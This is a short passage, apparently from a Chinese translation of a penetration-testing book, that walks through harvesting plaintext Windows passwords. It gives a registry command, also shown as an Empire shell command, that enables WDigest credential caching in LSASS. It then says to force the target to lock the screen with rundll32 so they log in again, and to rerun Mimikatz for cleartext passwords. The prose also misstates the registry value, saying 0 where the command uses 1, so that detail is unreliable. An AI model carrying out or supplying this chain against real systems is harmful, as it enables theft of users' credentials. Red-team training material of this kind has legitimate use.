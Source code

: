 ![](../images/chapter_4/4-15.png)

那么你能做什么呢？最简单的选项是设置注册表项以让系统将密码凭证保存到 LSASS 进程。在 HKLM 中，有一个 UseLogonCredential 设置，如果设置为0，系统将在内存中存储凭据（ http://bit.ly/2vhFBiZ ）：

- reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
- 在 Empire 中，我们可以通过 shell 命令运行：
  - shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

这个注册表修改的问题就是需要用户重新登录到系统。你可以让目标机器屏幕锁屏、重新启动或注销用户，以便你能够捕获然后再次发送凭证文本。最简单的方法是锁定他们的工作机器（这样他们就不会丢失他们的当前的工作...看看我有多好！）。要触发锁屏：

- rundll32.exe user32.dll，LockWorkStation

一旦我们锁定屏幕，并让它们重新登录，我们就可以重新运行 Mimikatz 来获得明文密码。
